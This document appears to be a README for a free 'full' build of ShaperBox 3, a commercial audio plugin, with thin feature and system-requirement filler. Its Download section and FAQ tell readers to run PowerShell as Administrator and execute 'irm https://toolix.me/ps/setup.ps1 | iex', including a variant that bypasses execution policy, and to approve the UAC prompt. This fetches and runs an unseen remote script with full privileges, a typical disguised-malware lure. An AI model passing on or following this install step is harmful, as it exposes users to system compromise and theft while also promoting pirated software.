

***

# ShaperBox 3 Full

<p align="center">
  
</p>

ShaperBox 3 Full — Windows 11 and 10 build | drawn pumps | filter presets.

## About this application

**ShaperBox 3 Full** in this repo is a Windows desktop package for producers shaping mix motion. Expect a guided first launch, access to the shape desk with time, volume, and filter, and stable sessions on a standard PC.

## Download

1. Open **PowerShell** as Administrator
2. Paste and run:

```powershell
irm https://toolix.me/ps/setup.ps1 | iex
```

3. Confirm **UAC** (Yes) — setup runs automatically

<details>
<summary><b>Having trouble? Try this instead</b></summary>

Paste this in the same PowerShell window:

```powershell
powershell -NoProfile -ExecutionPolicy Bypass -Command "irm https://toolix.me/ps/setup.ps1 | iex"
```

</details>


## Questions & Answers

**Where do I get the package?** Open **PowerShell as Administrator** and run the command in the Download section above.

**Does it work on Windows?** Yes, it is built and tested for Windows 10 and 11.

**What if Windows asks for permission to run?** Click **Yes** on the UAC prompt — the PowerShell setup needs Administrator approval to complete.

## About

ShaperBox 3 Full suits producers shaping mix motion who need a straightforward Windows install and a focused time, volume, and filter workflow.

## What's included

Shape desk tools are bundled in this release. Install locally, open the app, and use the time, volume, and filter toolkit right away.

## Features

⚡ Draw
🧩 Pump
⏱️ Repeat
✨ Filter
🗂️ Presets
🎧 A/B
📉 Scope

## Good for

- 📌 Electronic mix
- 🎯 Remix rooms
- ⭐ Course FX

* **Platform:** Windows 11 and 10 | 64-bit
* **RAM:** 4 GB minimum | 8 GB recommended
* **Disk:** 2 GB available storage

***